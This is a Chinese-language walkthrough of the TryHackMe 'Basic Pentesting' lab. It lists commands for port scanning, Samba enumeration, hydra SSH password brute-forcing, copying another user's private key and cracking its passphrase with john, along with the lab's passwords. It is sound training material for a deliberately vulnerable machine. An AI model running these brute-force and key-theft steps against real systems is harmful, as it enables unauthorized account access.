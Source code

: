 # THM-Basic Pentesting-练习

本文相关的TryHackMe实验房间链接：https://tryhackme.com/room/basicpentestingjt

本文相关内容：针对目标机器，练习攻击web应用程序以及进行权限提升。

![image](https://img2023.cnblogs.com/blog/2857591/202306/2857591-20230613034231254-439468242.png)

## Web应用程序测试和权限提升（横向）练习

难度：easy

机器地址：

目标机ip：10.10.144.213

攻击机ip（OPENVPN连接时，为tun0地址）：10.14.30.69

**相关知识点：**

* 目录爆破
* hash解密
* 服务信息枚举
* Linux信息枚举

**操作：**

使用nmap进行端口扫描：

```shell
nmap -sV -sC -T4 10.10.144.213
#可以使用-oN 将nmap扫描的结果输出为具有普通格式的文本
```

![image-20221012172252559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012172252559.png)

使用 dirsearch/dirbuster 查找Web 服务器的隐藏目录：

![image-20221012173810085](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012173810085.png)

获取目标机用户名：

_方法一：_

```shell
enum4linux  10.10.144.213 
```

![image-20221012181056091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012181056091.png)

_方法二：_

```shell
#由之前的nmap扫描结果可知：目标机运行了Samba服务
#我们尝试使用匿名登录Samba
smbclient //10.10.144.213/anonymous 
#发现员工信息，成功获取目标机用户名
```

![image-20221012192545313](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012192545313.png)

获取用户用于ssh连接的密码：

```
hydra -l jan -P rockyou.txt ssh://10.10.144.213 
```

![image-20221012180924886](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012180924886.png)

使用ssh登陆目标机的用户账号查看敏感文件

```shell
ssh jan@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 
#输入密码：armando
```

![image-20221012194722862](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012194722862.png)

发现其他用户的hash密钥--id\_rsa，将该密钥内容复制到攻击机上的idrsa.id\_rsa 中，先对idrsa.id\_rsa 进行加权操作，再尝试使用idrsa.id\_rsa通过ssh登录另一目标机用户，发现需要密码口令，在攻击机上使用john对idrsa.id\_rsa进行hash破解：

```shell
chmod 600 idrsa.id_rsa 
# ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 执行失败 提示输入密码口令
#提取密钥hash值
ssh2john idrsa.id_rsa > id_rsa_hash.txt
#破解hash值
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

![image-20221012195049211](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012195049211.png)

使用密码口令和idrsa.id\_rsa 通过ssh登陆目标机的另一用户账号，并查看敏感文件信息：

```shell
ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa
#输入密码口令 beeswax
```

![image-20221012200551375](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012200551375.png)

**答题卡**

![image-20221012201210559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012201210559.png)

